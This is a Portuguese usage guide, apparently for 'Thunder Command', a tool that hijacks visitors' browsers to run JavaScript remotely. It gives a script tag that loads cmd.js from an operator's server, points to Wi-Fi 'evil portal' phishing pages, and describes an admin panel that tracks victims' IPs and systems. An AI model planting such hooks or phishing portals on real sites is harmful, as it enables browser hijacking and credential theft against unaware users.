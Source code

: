 O Thunder Command permite controlar remotamente páginas web em tempo real, executando comandos JavaScript e manipulando elementos HTML em navegadores de clientes conectados. Este guia explica como utilizar o painel de controle administrativo para interagir com páginas de clientes que incluem o script `cmd.js`.

## Configuração do Cliente

Para transformar qualquer página em um cliente:

```html
<script src="http://seu-servidor:5000/1/cmd.js"></script>
```

## Exemplos Disponíveis

1. **exemple-clear.html** - Página básica para testes simples
2. **exemple-wifi.html** - Simulação de portal captive Wi-Fi
3. **example-class-id.html** - Página com diversos IDs e classes para testes

É possível usar os arquivos HTML do projeto **Brasil EvilPortal HTML Files**:
- https://github.com/MrCl0wnLab/BR-EvilPortal-HTML-Files

## Como Acessar o Painel

1. Inicie o servidor: `python app.py`
2. Acesse: `http://seu-servidor:5000/login`
3. Entre com suas credenciais
4. Você será direcionado para: `http://seu-servidor:5000/admin`

## Funcionalidades do Painel

### 1. Monitoramento de Clientes

A tabela de clientes conectados exibe:
- Status
- ID único
- Endereço IP
- Navegador
- Sistema operacional
- Tipo de conexão

<img src="../static/img/admin-select.png"> 
